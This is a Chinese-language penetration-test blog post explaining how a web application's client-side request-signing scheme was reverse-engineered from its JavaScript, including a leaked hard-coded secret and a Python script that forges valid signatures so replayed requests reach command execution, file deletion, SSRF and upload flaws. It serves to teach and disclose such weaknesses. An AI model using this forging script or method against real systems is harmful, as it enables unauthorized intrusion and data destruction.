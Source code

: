 ```yaml
---
layout: post
title: 一次验签机制伪造绕过引起的血案
noToc: true
date: 2020-01-18 15:30:00 +0800
tags: WEB安全  渗透测试
cover: '../assets/sign.png' 
---
```


## 一次验签机制伪造绕过引起的血案

### 背景

在实际资产网站中比较有安全意识的开发，为了防止攻击者获的请求数据包和参数进行伪造和重放，会在每一次请求中加上sig/sign验签机制，来保证请求不会被伪造和重放，确保请求的安全性。

主要防御措施可以归纳为两点：

- 对请求合法性进行校验
- 对请求的数据进行校验

而sig的核心是参数值防戳改+防二次请求。

nonce方案，加上仅一次有效的随机字符串，如：加密算法MD5/hash(random_string+token+request_param+param+param_value)处理后生成一个一次性有效的字符串值sig，存起来或在集合中，第二次先进行判断若出现相同的sig则认为重放，若放在集合则产生一个问题集合会无限扩大。

timestamp方案，即timestamp和其他参数一起进行数字签名。一次正常的HTTP请求，从发出到达服务器一般都不会超过一个规定的时间范围假设为60s，那么在60s之内也就可以进行重放攻击。

所以现在采用较为安全的方案一般可以是，nonce+timetamp方案，timetamp保证60s之外无法进行重放伪造，nonce又保证了60s之内请求的一次性有效，timetamp下60s后sig失效,同时解决集合无限放大的问题。

但是尽管sig生成机制多么的严密，理论上来说，还是防不了攻击者自己生成sign，因为客户端需要发送合法的数据包，那么生成的算法代码一定会出现在在客户端里（js）中，所以只要得到客户端的sign生成算法仍然存在sign伪造绕过。卸下验签机制的伪装后系统往往存在着许多严重的漏洞。就像下面的案例。

### 进入主题

最近渗透某系统时发现在前端每一步请求时都会生成一个sig验签机制，来保证请求的数据和提交的请求不可被重放。在验签机制的生成可在前端**taw-app.js**中查看其签名机制的生成原理，即

md5((e.indexOf("?") > 0 ? r.objKeySort($.parseJSON('{"' + e.split("?")[1].replace(/=/g, '":"').replace(/&/g, '","') + '"}')) : "{}") + d + sessionStorage.getItem("token") + a["default"].ajaxStr);

如下图

![img1]({{site.baseurl}}/assets/images/sign_pass/1.png)

sessionStorage.getItem("token")为jwt token固定且已知，d为6位生成的随机字符串（也可忽略可在下一次重新生成一个）r为doOutput->this传入的对象t

![im2]({{site.baseurl}}/assets/images/sign_pass/2.png)

![img3]({{site.baseurl}}/assets/images/sign_pass/3.png)

t为用户请求的功能接口可控。

用objKeySort如下图解析接口提交的data数据将等于号替换成冒号等操作转化为json格式然后按照键进行排序得到新的json数据。

![img4]({{site.baseurl}}/assets/images/sign_pass/4.png)

只有一个a["default"].ajaxStr未知，但该参数值也为一个固定值，

 

 

![img5]({{site.baseurl}}/assets/images/sign_pass/5.png)

 

 

![img6]({{site.baseurl}}/assets/images/sign_pass/6.png)

 

 

在这种情况下若a["default"].ajaxStr参数被泄露，攻击者可根据构造的数据包重新伪造一个签名进行重放，如下删除请求，后台代码中对参数并未进行过滤直接拼接进行任意文件操作，

![img7]({{site.baseurl}}/assets/images/sign_pass/7.png)

对应后端代码，存在任意文件删除，若签名伪造成功则可完成攻击。

![img8]({{site.baseurl}}/assets/images/sign_pass/8.png)

，代码多处存在问题，因此ajaxStr若能够在前台泄露则可造成在验签机制被伪造绕过的情况下系统的多处漏洞（使用到的危险函数未过滤）被触发的风险。

根据客户端中以上js中验签机制生成算法流程可以得到：

sig=md5({"param":"value"}+random_string+token+ajaxStr)

###  卸下sig伪装

抓取一个请求包

![img9]({{site.baseurl}}/assets/images/sign_pass/9.png)

token=

![img11]({{site.baseurl}}/assets/images/sign_pass/14.png)

调试js,获取ajaxstr

<img src="{{site.baseurl}}/assets/images/sign_pass/10.png" alt="img10"  />

ajaxStr="f%>zDq&6XqiY"

得到

sig=md5({"param":"value"}+random_string+token+ajaxStr)

中各参数的值

![img12]({{site.baseurl}}/assets/images/sign_pass/11.png)

![img13]({{site.baseurl}}/assets/images/sign_pass/12.png)

根据客户端js的验签机制生成算法python进行复现及伪造

![img14]({{site.baseurl}}/assets/images/sign_pass/13.png)

sig伪造exp

```python
import random
import string
import json
import time
import hashlib

def parseJSON(dataStr):
	strJSON="{'"+dataStr.replace("=","':'").replace("&","','")+"'}"
	return strJSON
def objKeySort(json_str):
	SortJson=json.dumps(eval(json_str),sort_keys=True)
	print(SortJson)
	print(type(SortJson))
	return SortJson
a = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z"]

#token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVybWFuIiwiaWF0IjoxNTc4OTA2Mzk3LCJpcGFkZHIiOiIxOTIuMTY4Ljg2LjIzMiIsImxvZyI6MTU3ODkwNjM5MSwidWlkIjoiIn0.OE9DEe2qS6p1eQeXXxGoUTfjMQZn3E8Ni73V2BIcc5Y";
token=''

if token=='':
	token=input("请输入token:")
	dataStr=''

if dataStr=='':
	dataStr=input("请输入提交的数据：")
jsonStr=parseJSON(dataStr)
print("Sort前-JSON:"+jsonStr+'\n')
objKeySort_JSON=objKeySort(jsonStr).replace(": ",":").replace(", ",",")
print("Sort后-JSON:"+objKeySort_JSON+'\n')
ajaxStr="f%>zDq&6XqiY";
num=''.join(random.sample(a,6));
num1='5WUX51';
#抓包下载
str_sig=str('''{"pcap_name":"pcap_20200113_155745.pcap|test|"}''')+num+token+ajaxStr;
#添加数据
str_sig=objKeySort_JSON+num+token+ajaxStr;

a = hashlib.md5()
a.update(str_sig.encode(encoding='utf-8'))
sig=a.hexdigest()
print("加密的字符串为："+str_sig+'\n')
print("sig:"+sig+'\n');
print("non:"+num+'\n');
print(dataStr+"&non="+num+"&sig="+sig);
```

### 渗透开始

#### 命令执行

![img15]({{site.baseurl}}/assets/images/sign_pass/15.png)

#### 任意文件删除

![img16]({{site.baseurl}}/assets/images/sign_pass/16.png)

![img17]({{site.baseurl}}/assets/images/sign_pass/17.png)

![img18]({{site.baseurl}}/assets/images/sign_pass/18.png)

![img19]({{site.baseurl}}/assets/images/sign_pass/19.png)

![img20]({{site.baseurl}}/assets/images/sign_pass/20.png)

#### SSRF

![img21]({{site.baseurl}}/assets/images/sign_pass/21.png)

#### 任意文件上传

![img22]({{site.baseurl}}/assets/images/sign_pass/21.png)

### 防御

理论上来说，根本防不了攻击者自己生成sign，因为客户端需要发送合法的数据包，那么生成的算法代码一定在客户端里的，所以建议提高攻击难度，对前端js进行混肴加密。

Js混肴加密可参考：

https://github.com/c0ny1/jsEncrypter

进行加密。